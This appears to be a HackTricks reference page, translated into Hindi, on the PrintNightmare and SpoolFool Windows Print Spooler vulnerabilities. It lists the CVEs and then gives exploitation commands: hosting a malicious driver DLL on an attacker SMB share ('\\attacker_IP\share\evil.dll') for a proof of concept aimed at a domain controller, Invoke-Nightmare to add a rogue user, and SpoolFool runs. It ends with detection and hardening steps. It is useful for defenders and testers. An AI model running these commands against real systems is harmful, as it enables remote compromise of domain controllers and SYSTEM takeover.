 # PrintNightmare (Windows Print Spooler RCE/LPE)

{{#include ../../banners/hacktricks-training.md}}

> PrintNightmare एक परिवार के कमजोरियों का सामूहिक नाम है जो Windows **Print Spooler** सेवा में हैं, जो **SYSTEM के रूप में मनमाना कोड निष्पादन** की अनुमति देते हैं और, जब स्पूलर RPC के माध्यम से पहुंच योग्य होता है, तो **डोमेन नियंत्रकों और फ़ाइल सर्वरों पर दूरस्थ कोड निष्पादन (RCE)** की अनुमति देते हैं। सबसे अधिक शोषित CVEs हैं **CVE-2021-1675** (शुरुआत में LPE के रूप में वर्गीकृत) और **CVE-2021-34527** (पूर्ण RCE)। इसके बाद के मुद्दे जैसे **CVE-2021-34481 (“Point & Print”)** और **CVE-2022-21999 (“SpoolFool”)** यह साबित करते हैं कि हमले की सतह अभी भी बंद होने से बहुत दूर है।

---

## 1. कमजोर घटक और CVEs

| वर्ष | CVE | संक्षिप्त नाम | प्राइमिटिव | नोट्स |
|------|-----|------------|-----------|-------|
|2021|CVE-2021-1675|“PrintNightmare #1”|LPE|जून 2021 CU में पैच किया गया लेकिन CVE-2021-34527 द्वारा बायपास किया गया|
|2021|CVE-2021-34527|“PrintNightmare”|RCE/LPE|AddPrinterDriverEx प्रमाणित उपयोगकर्ताओं को एक दूरस्थ शेयर से एक ड्राइवर DLL लोड करने की अनुमति देता है|
|2021|CVE-2021-34481|“Point & Print”|LPE|गैर-प्रशासक उपयोगकर्ताओं द्वारा असाइन किए गए ड्राइवर की स्थापना|
|2022|CVE-2022-21999|“SpoolFool”|LPE|मनमाना निर्देशिका निर्माण → DLL प्लांटिंग – 2021 के पैच के बाद काम करता है|

इनमें से सभी **MS-RPRN / MS-PAR RPC विधियों** (`RpcAddPrinterDriver`, `RpcAddPrinterDriverEx`, `RpcAsyncAddPrinterDriver`) या **Point & Print** के भीतर विश्वास संबंधों का दुरुपयोग करते हैं।

## 2. शोषण तकनीकें

### 2.1 दूरस्थ डोमेन नियंत्रक समझौता (CVE-2021-34527)

एक प्रमाणित लेकिन **गैर-विशिष्ट** डोमेन उपयोगकर्ता एक दूरस्थ स्पूलर (अक्सर DC) पर **NT AUTHORITY\SYSTEM** के रूप में मनमाने DLL चला सकता है:
```powershell
# 1. Host malicious driver DLL on a share the victim can reach
impacket-smbserver share ./evil_driver/ -smb2support

# 2. Use a PoC to call RpcAddPrinterDriverEx
python3 CVE-2021-1675.py victim_DC.domain.local  'DOMAIN/user:Password!' \
-f \
'\\attacker_IP\share\evil.dll'
```
लोकप्रिय PoCs में **CVE-2021-1675.py** (Python/Impacket), **SharpPrintNightmare.exe** (C#) और बेंजामिन डेल्पी के `misc::printnightmare / lsa::addsid` मॉड्यूल शामिल हैं **mimikatz** में।

### 2.2 स्थानीय विशेषाधिकार वृद्धि (कोई भी समर्थित Windows, 2021-2024)

समान API को **स्थानीय** रूप से `C:\Windows\System32\spool\drivers\x64\3\` से एक ड्राइवर लोड करने के लिए कॉल किया जा सकता है और SYSTEM विशेषाधिकार प्राप्त किया जा सकता है:
```powershell
Import-Module .\Invoke-Nightmare.ps1
Invoke-Nightmare -NewUser hacker -NewPassword P@ssw0rd!
```
### 2.3 SpoolFool (CVE-2022-21999) – 2021 के फिक्स को बायपास करना

Microsoft के 2021 के पैच ने दूरस्थ ड्राइवर लोडिंग को ब्लॉक कर दिया लेकिन **निर्देशिका अनुमतियों को मजबूत नहीं किया**। SpoolFool `SpoolDirectory` पैरामीटर का दुरुपयोग करता है ताकि `C:\Windows\System32\spool\drivers\` के तहत एक मनमाना निर्देशिका बनाई जा सके, एक पेलोड DLL गिराता है, और स्पूलर को इसे लोड करने के लिए मजबूर करता है:
```powershell
# Binary version (local exploit)
SpoolFool.exe -dll add_user.dll

# PowerShell wrapper
Import-Module .\SpoolFool.ps1 ; Invoke-SpoolFool -dll add_user.dll
```
> यह एक्सप्लॉइट पूरी तरह से पैच किए गए Windows 7 → Windows 11 और Server 2012R2 → 2022 पर फरवरी 2022 अपडेट से पहले काम करता है

---

## 3. पहचान और शिकार

* **इवेंट लॉग** – *Microsoft-Windows-PrintService/Operational* और *Admin* चैनल सक्षम करें और **इवेंट ID 808** “प्रिंट स्पूलर प्लग-इन मॉड्यूल लोड करने में विफल” या **RpcAddPrinterDriverEx** संदेशों के लिए देखें।
* **Sysmon** – `इवेंट ID 7` (छवि लोड की गई) या `11/23` (फाइल लिखें/हटाएं) `C:\Windows\System32\spool\drivers\*` के अंदर जब पैरेंट प्रोसेस **spoolsv.exe** हो।
* **प्रोसेस वंश** – जब भी **spoolsv.exe** `cmd.exe`, `rundll32.exe`, PowerShell या कोई भी असाइन किए गए बाइनरी को स्पॉन करता है, अलर्ट करें।

## 4. शमन और हार्डनिंग

1. **पैच करें!** – हर Windows होस्ट पर नवीनतम समेकित अपडेट लागू करें जिसमें Print Spooler सेवा स्थापित है।
2. **जहां आवश्यक न हो वहां स्पूलर को बंद करें**, विशेष रूप से डोमेन कंट्रोलर्स पर:
```powershell
Stop-Service Spooler -Force
Set-Service Spooler -StartupType Disabled
```
3. **स्थानीय प्रिंटिंग की अनुमति देते हुए दूरस्थ कनेक्शनों को ब्लॉक करें** – समूह नीति: `कंप्यूटर कॉन्फ़िगरेशन → प्रशासनिक टेम्पलेट → प्रिंटर → प्रिंट स्पूलर को क्लाइंट कनेक्शन स्वीकार करने की अनुमति दें = Disabled`।
4. **पॉइंट और प्रिंट को प्रतिबंधित करें** ताकि केवल प्रशासक ड्राइवर जोड़ सकें, रजिस्ट्री मान सेट करके:
```cmd
reg add "HKLM\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint" \
/v RestrictDriverInstallationToAdministrators /t REG_DWORD /d 1 /f
```
Microsoft KB5005652 में विस्तृत मार्गदर्शन

---

## 5. संबंधित अनुसंधान / उपकरण

* [mimikatz `printnightmare`](https://github.com/gentilkiwi/mimikatz/tree/master/modules) मॉड्यूल
* SharpPrintNightmare (C#) / Invoke-Nightmare (PowerShell)
* SpoolFool एक्सप्लॉइट और लेख
* SpoolFool और अन्य स्पूलर बग के लिए 0patch माइक्रोपैच

---

**अधिक पढ़ाई (बाहरी):** 2024 वॉक-थ्रू ब्लॉग पोस्ट देखें – [Understanding PrintNightmare Vulnerability](https://www.hackingarticles.in/understanding-printnightmare-vulnerability/)

## संदर्भ

* Microsoft – *KB5005652: नए पॉइंट और प्रिंट डिफ़ॉल्ट ड्राइवर स्थापना व्यवहार प्रबंधित करें*
<https://support.microsoft.com/en-us/topic/kb5005652-manage-new-point-and-print-default-driver-installation-behavior-cve-2021-34481-873642bf-2634-49c5-a23b-6d8e9a302872>
* Oliver Lyak – *SpoolFool: CVE-2022-21999*
<https://github.com/ly4k/SpoolFool>
{{#include ../../banners/hacktricks-training.md}}
